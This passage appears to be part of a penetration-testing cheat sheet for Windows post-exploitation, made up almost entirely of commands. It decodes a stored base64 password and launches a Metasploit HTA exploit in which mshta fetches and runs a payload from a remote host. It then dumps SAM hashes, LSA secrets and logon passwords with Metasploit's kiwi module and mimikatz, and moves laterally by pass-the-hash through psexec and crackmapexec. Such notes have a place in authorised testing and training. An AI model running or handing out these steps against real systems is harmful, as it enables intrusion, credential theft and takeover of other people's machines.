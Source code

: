 ```bash

DECODE WITH PSH
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
echo $password

> runas.exe /user:administrator cmd
> msfconsole -q
> use exploit/windows/misc/hta_server
> mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta
```

##### Hash Dumping and PtH
> Dumping hashes with MSF && mimikatz.exe :-
```bash
- WITH MSF
as always if you are administrator migrate to a process with higher privs especially the "lsass.exe" process 

> pgrep lsass
> migrate $PID

> load kiwi
> creds_all
> lsa_dump_sam
> lsa_dump_ secrets

- WITH MIMIKATZ.exe bin
> mimikatz.exe "privilege::debug lsadump::sam exit"
TO DUMP LSA SECRETS USE
> lsadump::secrets

when logon passwords are stored in cleartexts, thats when you use 
> sekurlsa::logonpasswords
``` 
windows version >=8.1 doesnt store clear text creds
lsa_secrets could contain clear text creds

>PassTheHash
```bash
- WITH PSEXEC MSF MODULE
you need both LM:NT hash --> hashdump to get it

> use smb/psexec
> set smbuser, smbpass, rhosts
> set target $WHATEVER_TARGET_WORKS_TRY_NATIVE_UPLOAD

- WITH CME
cme smb $IP -u Administrator -H $HASH
cme smb $IP -u Administrator -H $HASH -x "ipconfig"
```
